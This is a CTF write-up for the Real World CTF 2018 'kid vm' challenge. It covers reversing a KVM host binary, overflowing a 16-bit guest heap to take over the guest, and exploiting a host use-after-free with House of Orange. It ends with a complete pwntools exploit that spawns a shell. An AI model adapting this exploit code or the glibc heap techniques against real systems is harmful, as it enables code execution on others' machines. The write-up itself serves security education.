

# Real World CTF 2018: kid vm (pwn, 188 pts)
###### By @Vtec234, @DavidBuchanan314, @hstocks

The challenge description states:
> Writing a vm is the best way to teach kids to learn vm escape.

We are given a Linux binary, call it `kidvm`, with all protections turned on:
```shell
[*] '/home/ctf/kidvm'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
as well as the libc used (`libc-2.23.so`, how nice of the organisers :) and a remote service to connect to.

## Part 0: Recon
The goal here seems pretty straightforward, to escape from some VM guest into the host and get code execution on the host. To begin understanding what's going on, I popped the binary in IDA and spent some time naming variables, matching values to enums, and so on. In the end, the binary performs a standard VM initialization using `KVM`, along the lines of what's described [here](https://lwn.net/Articles/658511/). All interactions with the `KVM` driver are performed via [`ioctl`s](http://man7.org/linux/man-pages/man2/ioctl.2.html) and a good API reference can be found [here](https://www.kernel.org/doc/Documentation/virtual/kvm/api.txt).

A memory block of 64KiB is `mmap`d and made accessible to the guest at physical address `0x0`. The first few hundred bytes are initialized from a byte array stored read-only in the host, which we can expect to be the guest code (because the guest registers are zeroed, and hence it starts executing at `ip=0`).

After the initialization, the guest is started in debug mode, with the trap flag set and using `KVM_GUESTDBG_SINGLESTEP`:



This means that the guest is executed one step at a time, so that the host can inject state into it. The guest is then executed in a loop:

```c
while ( 2 )
{
  if ( ioctl(fvcpu, KVM_RUN) == -1 )
  {
    perror("Fail");
    return 1LL;
  }
  switch ( vcpu_params->exit_reason )
  {
    case KVM_MEM_READONLY:                    // actually KVM_EXIT_IO, IDA messed up
                                              // VM IO is passed through to the host and hence us
      if ( vcpu_params->io.direction == 1
        && vcpu_params->io.size == 1
        && vcpu_params->io.port == 23
        && vcpu_params->ex.error_code == 1 )
      {
        putchar(*(&vcpu_params->request_interrupt_window + vcpu_params->io.data_offset));
        continue;
      }
      if ( !vcpu_params->io.direction
        && vcpu_params->io.size == 1
        && vcpu_params->io.port == 23
        && vcpu_params->ex.error_code == 1 )
      {
        read(0, &vcpu_params->request_interrupt_window + vcpu_params->io.data_offset, 1uLL);
        continue;
      }
      fwrite("Unhandled IO\n", 1uLL, 13uLL, stderr);
      return 1LL;
    case KVM_EXIT_DEBUG:
      if ( ioctl(fvcpu, 0x8090AE81uLL, &guest_regs) == -1 )// KVM_GET_REGS
        puts("Error get regs!");
      if ( *(guest_mem + guest_regs.rip) == 0xF
        && *(guest_mem + guest_regs.rip + 1) == 1
        && *(guest_mem + guest_regs.rip + 2) == 0xC1u )// 0x0F01C1 -> VMCALL in x86_64
      {
        if ( ioctl(fvcpu, 0x8090AE81uLL, &guest_regs) == -1 )// KVM_GET_REGS
          puts("Error get regs!");
        switch ( LOWORD(guest_regs.rax) )
        {
          case GUEST_SYSCALL_FREE:
            guest_syscall_free(guest_regs.rbx, guest_regs.rcx);
            break;
          case GUEST_SYSCALL_MEMCPY:
            guest_syscall_memcpy(guest_regs.rbx, guest_regs.rcx, guest_regs.rdx, guest_mem);
            break;
          case GUEST_SYSCALL_ALLOC:
            guest_syscall_alloc(guest_regs.rbx);
            break;
          default:
            puts("Function error!");
            break;
        }
      }
      continue;

    case (other cases):
      ...
}
```

We can see two interesting cases. If the guest has performed IO (via the `IN` or `OUT` instructions) on port `23`, the IO is passed through to the user. This means that we can interact with the guest directly.

Moreover, there are three "syscalls" accessible to the guest via `VMCALL`. The syscalls provide a standard `alloc`, `free`, `set` workflow and the `free` implementation has an obvious use-after-free vulnerability. There is a twist though - the `free` syscall has three variants, where only variants `1` and `2` are vulnerable. The variant is chosen by setting `rbx` in the guest.

```c
void __cdecl guest_syscall_free(__int16 op, unsigned __int16 idx)
{
  if ( idx <= 16u )
  {
    switch ( op )
    {
      case 2:
        free(bss_alloc_addrs[idx]);
        bss_alloc_addrs[idx] = 0LL;
        --bss_alloc_count;
        break;
      case 3:
        free(bss_alloc_addrs[idx]);
        bss_alloc_addrs[idx] = 0LL;
        bss_alloc_sizes[idx] = 0;
        --bss_alloc_count;
        break;
      case 1:
        free(bss_alloc_addrs[idx]);    // use-after-free
        break;
    }
  }
  else
  {
    perror("Index out of bound!");
  }
}
```

## Part 1: Guest heap
At this point I decided to look at the guest code, because that is what we will really be interacting with. I dumped the code into a separate file and loaded it into IDA in 32-bit mode. Wait, what?

Yeah, I spent a good 30 minutes trying to understand what the guest was doing by looking at it using the wrong register width. To my defense, it looked suspiciously like obfuscation (with never-taken jumps and all). After having realised that the guest is actually running in 16-bit real mode, the task became a lot easier.

Ignoring segmentation, the guest has 64KiB of addressable memory, laid out as follows:

|Address          | Description        |
|-----------------|--------------------|
|`0x0  - 0x345`     |Guest Code + Data   |
|`0x346 - 0x365`    |`void* start_addrs[16]`   |
|`0x366 - 0x385`    |`uint16_t sizes[16]`|
|`0x4000 - 0x4FFF`  |Host <-> Guest transfer buffer |
|`0x5000 - 0xFFFF`* |Guest allocation arena |

Since real mode has no kind of memory protection, everything is RWX, from the guest perspective (the host only sees the memory as RW).

As we mentioned, the guest IO is passed through the host to us. It presents an interactive menu of 7 options:

```
Welcome to the Virtual World Memory Management!
What do you want to do?
1.Alloc memory
2.Update memory
3.Free memory
4.Alloc host memory
5.Update host memory
6.Free host memory
7.Exit
Your choice:
```

The first 3 allow interaction with a custom heap implementation in guest memory. The next 3 allow interaction with the host heap via the "syscalls" we found earlier. Unfortunately, the only host `free` variant that the guest code calls is number `3` - not one of the vulnerable ones.

This means that we will have to get code execution on the guest by breaking the guest heap implementation. Let's focus on the first 3 options.

The third option, `free`, is literally just a `ret` instruction, it does nothing. The `update` option allows you to write data into an existing allocation.

The allocator works by keeping track of existing allocations in a pair of static arrays, each with 16 entries. The first array (`start_addrs`) contains start addresses, and the second (`sizes`) contains the allocation lengths. A static variable keeps track of the total number of bytes allocated, out of a maximum of `0xb000` bytes (`0x10000-0x5000`). The allocation function performs several checks before making an allocation:

```asm
ORG 0x0087 (guest_alloc+0x18)
# check 1: Is the size of the allocation <= 0x1000?
mov     ax, [in_buf]
cmp     ax, 0x1000
ja      e_toobig
# check 2: Is the total number of bytes previously allocated <= 0xb000?
mov     cx, [total_size]
cmp     cx, 0xb000
ja      e_nomem
# check 3: Is the total number of allocations < 0x10?
mov     si, [num_allocs]
cmp     si, 0x10
jnb     e_toomany
```

The issue here is in check 2. It checks the total bytes allocated *before* the new allocation, not after it. Because of this, if the total number of bytes previously allocated is anywhere between `0xa001` and `0xb000`, then the new allocation can wrap around and start overwriting the program memory! (The allocation arena starts at `0x5000`, and since we're only dealing with 16-bit registers,`0x5000+0xb000 = 0x10000 = 0x0`).

From here, all we have to do is overwrite the start of the main program loop with our own code, and we have full control of the guest.

For some reason I decided to overcomplicate things, so I wrote a small [loader stub](stage0.asm) to read in a [secondary program](stage1.asm) over port `0x17`, store it at address `0x8000`, and jump to it. My reason for doing this was to leave as much of the original program in-tact as possible, so I could still call into it if needed (In hindsight, I could have used the "Update memory" option to read the second stage into memory). The secondary program provides a simple "API" over port `0x17` that lets us make arbitrary vmcalls from our main exploit script, so that we could start exploiting the host heap. (kudos to anyone who wrote the host heap exploit in assembly!).

## Part 2: Host heap
Having gained full control of the guest execution, it is now time to pwn the host. All code is position independent, so first we need to leak the `libc` and heap base addresses. This turns out to be quite easy thanks to the use-after-free, whereby allocating 4 chunks and then freeing the first and the third (to prevent coalescing) stores a pointer both to `libc::main_arena` and to the third chunk in the first chunk, which we can read.

Now it is time to use our leak and get code execution. Being a n00b at heap exploits didn't help, and I spent a good few hours trying different things. The first thing I tried was to [write a large value into global_max_fast](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c), so that I can proceed with a fastbin exploit afterwards. Unfortunately, this resulted in fastbin index corruption that I _really_ didn't wanna deal with.

Afterwards, I tried a bunch of things from different Houses and eventually settled on [House of Orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_orange.c). I really like this exploit because of how elegant it this, and also due to the fact that it works :D The prerequisite of being able to overwrite Top/Wilderness is satisfied by allocating a chunk of a larger size, freeing it while preserving its pointer, and then allocating a smaller one, so that the data of the initial larger chunk is now over the Wilderness metadata. The fake `_IO_list_all` invoked by the `libc` error message handler grants us a shell.

Full exploit:
```python
#!/usr/bin/env python2

from pwn import *
import os
import time


LOCAL = False

# libc symbols
LIBC_MAIN_ARENA = 0x3c4b20
LIBC_MAX_FAST = 0x3c67f8
LIBC_IO_LIST_ALL = 0x3c5520
LIBC_SYSTEM = 0x45390
LIBC_SHELL_1 = 0x45216
LIBC_SHELL_2 = 0x4526a
LIBC_SHELL_3 = 0xf02a4
LIBC_SHELL_4 = 0xf1147

def prog():
    if LOCAL:
        return process('./kidvm')
    else:
        return remote("34.236.229.208", 9999)

def sleep(secs):
    if LOCAL:
        pass
    else:
        time.sleep(secs)

def main():
    with prog() as p:
        # GUEST HEAP HIJACK:
        # Assemble guest stages 0 and 1
        os.system("nasm stage0.asm -o stage0.bin")
        os.system("nasm stage1.asm -o stage1.bin")

        for i in range(0xb):
                p.send("1")
                p.send(p16(0x1000))

        stage0 = "\x90"*0x10 + open("stage0.bin", "rb").read()

        # this allocation wraps
        p.send("1")
        p.send(p16(len(stage0)))

        p.send("2")
        p.send(p8(0xb))
        p.send(stage0)

        stage1 = open("stage1.bin", "rb").read()
        stage1 += "\0" * (0x8000-len(stage1))

        sleep(.5)
        p.send(stage1)
        sleep(.5)

        def readbuf(length):
                # sync IO via invalid instruction
                p.send("X")
                p.recvuntil("Invalid\n")
                p.send("R")
                p.send(p16(length))
                sleep(.5)
                return p.recvn(length)

        def writebuf(data):
                p.send("W")
                p.send(p16(len(data)))
                p.send(data)
                sleep(.5)

        # Vmcall numbers
        GUEST_VMCALL_ALLOC = 0x100
        GUEST_VMCALL_FREE = 0x101
        GUEST_VMCALL_MEMCPY = 0x102

        def vmcall(ax, bx, cx, dx):
                p.send("S")
                p.send(p16(ax))
                p.send(p16(bx))
                p.send(p16(cx))
                p.send(p16(dx))
                sleep(.5)

        def host_alloc(size):
            assert(size > 127 and size <= 4096)
            vmcall(GUEST_VMCALL_ALLOC, size, 0xbeef, 0xbeef)

        # Variants of the host free operation
        FREE_OP_NOCLEAN = 1
        FREE_OP_ADDRCLEAN = 2
        FREE_OP_ALLCLEAN = 3

        def host_free(op, idx):
            assert(idx <= 16)
            assert(op >= FREE_OP_NOCLEAN \
                   and op <= FREE_OP_ALLCLEAN)
            vmcall(GUEST_VMCALL_FREE, op, idx, 0xbeef)

        # Variant of the memcpy vmcall
        MEMCPY_OP_GUEST_TO_HOST = 1
        MEMCPY_OP_HOST_TO_GUEST = 2

        # Copies to or from the buf at 0x4000, accessible via readbuf/writebuf
        def host_memcpy(op, idx, size):
            assert(op == MEMCPY_OP_GUEST_TO_HOST \
                   or op == MEMCPY_OP_HOST_TO_GUEST)
            assert(idx <= 16)
            vmcall(GUEST_VMCALL_MEMCPY, op, idx, size)

        # Writes the given memory contents into one of the host allocations
        def write_host_mem(idx, mem):
            writebuf(mem)
            host_memcpy(MEMCPY_OP_GUEST_TO_HOST, idx, len(mem))

        # Reads `size` bytes from host memory at the given allocation
        def read_host_mem(idx, size):
            host_memcpy(MEMCPY_OP_HOST_TO_GUEST, idx, size)
            return readbuf(size)

        # Verify that everything is working
        writebuf("hello")
        assert(readbuf(5) == "hello")

        host_alloc(128)
        write_host_mem(0, "world")
        assert(read_host_mem(0, 5) == "world")
        host_free(FREE_OP_ALLCLEAN, 0)

        # HOST SPLOIT:
        NICE_CHUNK_SZ = 0x400 - 16

        # 1. leak libc address and heap address
        host_alloc(NICE_CHUNK_SZ)
        host_alloc(NICE_CHUNK_SZ)
        host_alloc(NICE_CHUNK_SZ)
        host_alloc(NICE_CHUNK_SZ)
        host_free(FREE_OP_NOCLEAN, 0)
        host_free(FREE_OP_ALLCLEAN, 2)

        mem = read_host_mem(0, 16)
        libc = u64(mem[:8]) - 0x58 - LIBC_MAIN_ARENA
        heap = u64(mem[8:]) - 0x800
        print "libc: 0x{:x}".format(libc)
        print "heap: 0x{:x}".format(heap)

        # clean up
        host_free(FREE_OP_ALLCLEAN, 1)
        host_free(FREE_OP_ALLCLEAN, 3)

        # 2. overwrite Wilderness to enter the house of orange
        NICE_CHUNK_SZ = 0x200 - 16
        host_alloc(NICE_CHUNK_SZ) # 1
        write_host_mem(1, "A"*NICE_CHUNK_SZ)
        print repr(read_host_mem(0, 0x300))

        write_host_mem(0, "B"*NICE_CHUNK_SZ + "\x00"*8 + p64(0xe01))
        print repr(read_host_mem(0, 0x300))

        host_alloc(0x1000)
        print repr(read_host_mem(0, 0x300))

        # construct fake _IO_list_all
        top = [p64(0)] * 30
        top[0] = "/bin/sh\x00"
        top[1] = p64(0x61)
        top[3] = p64(libc + LIBC_IO_LIST_ALL - 16)
        top[8] = p64(0)
        top[4] = p64(2)
        top[5] = p64(3)
        top[15] = p64(libc + LIBC_SYSTEM)
        top[27] = p64(heap + 0x200 + 0x60)

        write_host_mem(0, "C"*NICE_CHUNK_SZ + ''.join(top))
        print repr(read_host_mem(0, 0x300))

        # 3. ??
        host_alloc(128)
        print p.recv(timeout=1)

        # 4. profit
        p.interactive()

if __name__ == "__main__":
    main()
```
